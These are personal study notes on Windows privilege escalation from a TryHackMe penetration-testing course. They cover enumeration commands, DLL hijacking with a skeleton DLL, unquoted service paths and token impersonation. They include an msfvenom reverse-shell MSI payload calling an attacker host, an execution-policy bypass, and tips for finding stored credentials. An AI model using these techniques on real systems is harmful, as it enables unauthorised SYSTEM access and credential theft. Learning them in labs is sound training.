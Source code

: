 # TryHackMe: Jr. Penetration Tester

## Windows PrivEsc

### Introduction

Common Windows user levels:

* Local Admin
* Local User
* Guest User
* Domain User
* Domain Admin

Note that non-admin domain users may still be local admins.

Note that most Windows antivirus products will not allow enumeration scripts to be run.

Here’s a useful checklist:

* [Windows - Privilege Escalation (PayloadsAllTheThings)](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md)

### Information Gathering

* `whoami /rpiv` — current user + privileges
* `net user` — list all (local) users
* `net user $USERNAME` — get details for user `$USERNAME`
* `net localgroup` — list all (local) groups
* `net localgroup $GROUP` —- list user in group `$GROUP`
* `query session` — list other users who are currently logged in
* `systeminfo` — return system info
* `hostname` — return system hostname
* `wmic qfe get Caption,Description,HotFixID,InstalledOn` — list installed updates (only Windows 10 21H1 and older)
* `schtasks` — list scheduled tasks
* `driverquery` — list installed drivers
* `sc` — query (and manipulate) services (does not work in PowerShell!)

Note that the `findstr` command is the Windows equivalent of `grep` (and sometimes also `find`). Also remember that you can use pipe in Windows!

Note that Windows provides the `netstat` command, and it recognizes all of the switches we’d hope it does. Note, however, that `-o` displays the PID of the process using the connection on Windows.

Microsoft Defender uses the service name `windefend`.

* [Using “netstat”](../notes/netstat.md)

### Tools of the Trade

* [WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* [Windows Exploit Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)
* [Metasploit](../notes/metasploit.md)

Notes:

* WinPEAS is detected and quarantined by Microsoft Defender by default.
* PowerUp may require an unrestricted PowerShell session (`powershell -nop -exec bypass`), which can raise alerts.
* Windows Exploit Suggester analyzes the output of `systeminfo`, and can be run on the attacker’s machine.
* The `multi/recon/local_exploit_suggester` module works through Meterpreter to analyze a Windows system for potential vulnerabilities.

### Vulnerable Software

* `wmic product` — list all installed software (but misses 32-bit applications installed on a 64-bit OS)
* `wimc service list brief` — another way of listing services

### DLL Hijacking

Basically, this is the Windows equivalent of exploiting `LD_PRELOAD` or `LD_LIBRARY_PATH`.

Windows DLL search order if `SafeDllSearchMode` is enabled:

* The application directory
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The current directory (!)
* The system `PATH` (!)

Windows DLL search order if `SafeDllSearchMode` is disabled:

* The application directory
* The current directory (!)
* The system directory (as returned by `GetSystemDirectory()`)
* The 16-bit (!) system directory
* The Windows directory (as returned by `GetWindowsDirectory()`)
* The system `PATH` (!)

It seems more-or-less impossible to determine what DLLs an application is searching for without having SYSTEM access already (so tools like ProcMon can be run). So, local testing!

A skeleton DLL:

```c
#include <windows.h>

BOOL WINAPI DllMain
(HANDLE hDll, DWORD dwReason, LPVOID lpReserved) {
	if (dwReason == DLL_PROCESS_ATTACH) {
		system("cmd.exe /C whoami > C:\\Temp\\dll.txt");
		ExitProcess(0);
	}
	return TRUE;
}
```

Compile with mingw (this *can* be done on Linux!):

```powershell
x86_64-w64-mingw32-gcc windows_dll.c \
	-shared -o output.dll
```

Note that Windows *also* comes with `wget`!

```powershell
# Change user foo's password to "bar" (requires
# admin/SYSTEM authority):
#
net user foo bar
#
# Note that this does *NOT* bypass any password
# complexity requirements!
```

* [Exploiting LD_PRELOAD](../notes/exploiting-ld-preload.md)
* [Exploiting LD_LIBRARY_PATH](../notes/exploiting-ld-library-path.md)

### Unquoted Service Path

Formally, when Windows encounters an unquoted service path it tries *all* possible paths, from shortest to longest. Thus `C:\Program Files\service path\service.exe` will cause Windows to look for the following executables, in order:

* `C:\Program.exe`
* `C:\Program Files\service.exe`
* `C:\Program Files\service path\service.exe`

If an executable is found on a shorter path, then the remainder of the (unquoted) path is treated as command line parameters.

Print out all services:

```powershell
wmic service get name,displayname,pathname,startmode
```

You can inspect the service paths in this output to see if any have spaces *and* are unquoted.

When checking the permissions of a folder, note that the Windows File Explorer isn’t good about displaying permissions for users who have *multiple* applied ACLs. Use `icacls` or `Get-Acl $PATH | Format-List`, and be sure to keep your eyes peeled for duplicate user entries (*all* of which will be applied!).

Find a file in Windows:

```powershell
dir $FILE_NAME /S
```

* [How to find a file or folder in MS-DOS or Windows command line](https://www.computerhope.com/issues/ch000309.htm)

### Token Impersonation

Prior to Windows 10 1809 / Server 2019, services could be forced to authenticate to a local port controlled by a low-privilege attacker, which would then allow the attacker to proxy and capture the NTLM handshake and thus (typically) a SYSTEM token. (This vulnerability *technically* still exists, its just that unprivileged accounts can no longer use this token; check to see if the output of `whoami /priv` contains the `SeImpersonatePrivilege` privilege to see if you’ve gotten lucky.)

Exploits in this family are typically named “X Potato” after the first exploit, “Hot Potato”.

### Quick Wins

(1) Look for defunct (but still running) scheduled tasks with running as a more highly privileged account that point to a path you can control.

(2) If `AlwaysInstallElevated`  is set to 1 under both of the following keys, then MSI installers will run as SYSTEM.

```powershell
reg query \
	HKCU\Software\Policies\Microsoft\Windows\Installer

reg query \
	HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

Generate a malicious MSI file with msfvenom:

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
	LHOST=$ATTACKER_IP LPORT=$ATTACKER_PORT \
		-f msi -o $INSTALLER.msi
```

Then install on the target to gain SYSTEM:

```powershell
msiexec /quiet /qn /i $INSTALLER.msi
```

(3) Check for saved passwords of othe users with `cmdkey /list`. If any exist, then they can be used in `runas` with the `/savecred` flag.

(4) Sometimes registry keys contain passwords! Apparently, you can query/search across registry keys using `reg query …`.

(5) Windows uses a file called `unattend.xml` to store setup auto-configuration information. Check if these have been left lying around.

- - - -

<span aria-hidden="true">👤</span> Nathan Acks  
<span aria-hidden="true">📅</span> April 21, 2022
